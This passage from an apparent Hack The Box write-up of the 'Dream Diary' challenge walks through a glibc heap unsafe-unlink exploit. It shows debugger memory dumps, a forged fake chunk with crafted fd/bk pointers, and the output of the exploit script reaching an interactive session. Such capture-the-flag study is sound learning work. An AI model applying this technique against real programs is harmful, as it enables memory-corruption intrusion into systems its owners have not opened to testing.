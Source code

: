 ```asm
0x230a240:	0x0000000000000080	0x0000000000000090
0x230a250:	0x4545454545454545	0x4545454545454545
0x230a260:	0x4545454545454545	0x4545454545454545
0x230a270:	0x4545454545454545	0x4545454545454545
0x230a280:	0x4545454545454545	0x4545454545454545
0x230a290:	0x4545454545454545	0x4545454545454545
0x230a2a0:	0x4545454545454545	0x4545454545454545
0x230a2b0:	0x4545454545454545	0x4545454545454545
0x230a2c0:	0x4545454545454545	0x4545454545454545
0x230a2d0:	0x4545454545454545	0x0000000000020d31
```

Here, the our forged chunk is within the 3rd chunk, our `fd` points to the `0x6020c0` and the `bk` to the `0x6020c8`, this aside, then we modified the `prev_size` of the chunk `0x230a1c0` to the `0x80` as it was `0x90` before, we did this because, our forged chunk must be considered from the `0x230a1c0` as from the we have an actual free'd chunk structure, then we made `prev_inuse` bit of the chunk `0x230a250` equal to the `0` to consider the chunk as a free'd chunk, so when we try to do `free(chunk4)` it'll consolidate the adjacent chunks, hence doing an unsafe unlink, resulting in the `fd` of the free'd chunk pointing to the `0x6020c0`.

Let's free the chunk 4 and see the memory content to make this more clear.


```asm
0 [08:53:07] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 2978
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88
[*] Preparing a fake chunk...
[*] Fake chunk:
    00000000:  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000010:  c0 20 60 00 00 00 00 00  c8 20 60 00 00 00 00 00  |. `...... `.....|
    00000020:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000030:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000040:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000050:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000060:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000070:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000080:  80 00 00 00 00 00 00 00  90                       |.........|
[*] Editing chunk 3 with a fakr chunk
[*] Triggering Unlink
[*] Switching to interactive mode
Done!

+------------------------------+
|         Dream Diary          |
+------------------------------+
| [1] Allocate                 |
| [2] Edit                     |
| [3] Delete                   |
| [4] Exit                     |
+------------------------------+

[..snip..]

gef➤  heap chunks
Chunk(addr=0x2236010, size=0x90, flags=PREV_INUSE)
    [0x0000000002236010     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x22360a0, size=0x90, flags=PREV_INUSE)
    [0x00000000022360a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x2236130, size=0x90, flags=PREV_INUSE)
    [0x0000000002236130     43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43    CCCCCCCCCCCCCCCC]
Chunk(addr=0x22361c0, size=0x90, flags=PREV_INUSE)
    [0x00000000022361c0     00 00 00 00 00 00 00 00 41 0e 02 00 00 00 00 00    ........A.......]
```
